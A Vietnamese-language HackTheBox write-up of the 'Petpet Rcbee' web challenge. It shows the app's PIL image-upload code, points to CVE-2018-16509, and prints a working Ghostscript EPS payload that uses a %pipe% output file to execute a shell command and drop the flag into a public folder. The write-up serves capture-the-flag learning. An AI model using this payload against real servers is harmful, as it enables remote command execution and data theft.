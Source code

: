 ```yaml
---
title: HTB Petpet Rcbee
author: HoangND
date: 2021-09-05 08:51:00 +0700
categories: [Writeups, HackTheBox]
tags: [pil, hack the box]
---
```


Petpet rcbee là một web challenge. Sau khi xem xét thì thấy rằng trang web chỉ có một chức năng duy nhất là upload 1 ảnh sau đó "pet" ảnh này.

![image](https://user-images.githubusercontent.com/61985236/132112457-f6c6f3b3-45cf-4de4-a1c1-91f03404a76f.png)

Oke kiểm tra source code xem có gì có thể lợi dụng để RCE thông qua file được tải lên hay không

```python
def petpet(file):

    if not allowed_file(file.filename):
        return {'status': 'failed', 'message': 'Improper filename'}, 400

    try:
        
        tmp_path = save_tmp(file)

        bee = Image.open(tmp_path).convert('RGBA')
        frames = [Image.open(f) for f in sorted(glob.glob('application/static/img/*'))]
        finalpet = petmotion(bee, frames)

        filename = f'{generate(14)}.gif'
        finalpet[0].save(
            f'{main.app.config["UPLOAD_FOLDER"]}/{filename}', 
            save_all=True, 
            duration=30, 
            loop=0, 
            append_images=finalpet[1:], 
        )

        os.unlink(tmp_path)

        return {'status': 'success', 'image': f'static/petpets/{filename}'}, 200

    except:
        return {'status': 'failed', 'message': 'Something went wrong'}, 500
```

Ảnh sau khi được tải được xử lý bằng hàm petpet. 
Bên trong thực hiện các thao tác như lưu ảnh vào file tạm, generate một ảnh gif dựa trên ảnh này, sau đó đưa nó vào thư mục theo đường dẫn là biến UPLOAD_FOLDER ở trong config. 
Cuối cùng là xóa ảnh trong tmp.

Trang web này sử dụng một thư viện là PIL để xử lý ảnh, để xem PIL có CVE nào k. 
Sau khi xem xét một vòng thì có 1 CVE liên quan đến PIL và Ghostscript để RCE là [CVE-2018-16509](https://store.vsplate.com/en/post/141/), check lại thì bên trong file docker có tồn tại cái gọi là Ghostscript thật.

![image](https://user-images.githubusercontent.com/61985236/132112621-6aa6440d-069f-4f3d-98d6-ac8464924feb.png)

Sử dụng luôn craft image của CVE, chạy thử trên local

![image](https://user-images.githubusercontent.com/61985236/132112641-0d615a6f-1183-4c0c-8e83-5d2cc5f5d787.png)

Oke vậy là đã RCE được, bây giờ cần làm thế nào để đọc được flag được dấu bên trong. Để ý rằng có một đường dẫn tệp được public là UPLOAD_FOLDER (/static/petpets/).
Vậy chỉ cần đọc file flag và ghi vào một file bất kỳ trong đường dẫn này là xong.

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag > application/static/petpets/test.txt) currentdevice putdeviceprops
```

![image](https://user-images.githubusercontent.com/61985236/132112752-4583ab37-3e83-4e77-9d83-bfde6b024c67.png)

Cám ơn bạn đã đọc ♡.